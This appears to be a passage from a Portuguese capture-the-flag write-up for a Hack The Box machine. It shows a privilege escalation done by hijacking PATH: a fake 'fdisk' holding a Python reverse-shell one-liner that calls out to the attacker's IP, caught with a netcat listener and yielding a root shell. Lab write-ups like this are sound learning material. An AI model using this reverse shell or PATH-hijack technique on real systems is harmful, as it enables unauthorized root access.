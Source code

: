 ```bash
/0/46/0.0.0        /dev/cdrom  disk       VMware IDE CDR00
/1                             system     
```

Dentro do tmp,  criei uma pasta root e dentro dela criei o arquivo  fdisk  por que o fdisk é um dos modulos que o binário chama. 

```bash
theseus@ubuntu:/tmp/root$ touch fdisk
```

Depois exporto o path, para ser executado com a váriavel $PATH
```bash
theseus@ubuntu:/tmp/root$ export PATH=/tmp/root:$PATH
```
Agora neste arquivo do fdisk vou jogar aquele shell reverso em python novamente

```bash
theseus@ubuntu:/tmp/root$ cat > fdisk
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.15",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Agora sim dou as permissões 

chmod 755 fdisk

OBS >  no shell reverso coloco meu IP de tunel e porta

agora abro um novo terminal

E uso no netcat novamente para escutar na porta 1234 

```bash
kali@kali:nc -nlvp 1234
```
volto na outra aba do terminal

e executo o path

```bash
theseus@ubuntu: sysinfo
```
Na outra aba com o netcat ouvindo, vc vai perceber que o binário foi executado elevando seu privilégio para root

```bash
Ncat: Connection from 10.10.10.185:45410.
root@ubuntu:/tmp/root# whoami
whoami
root
```



























![HTB](/print3-magic.png)

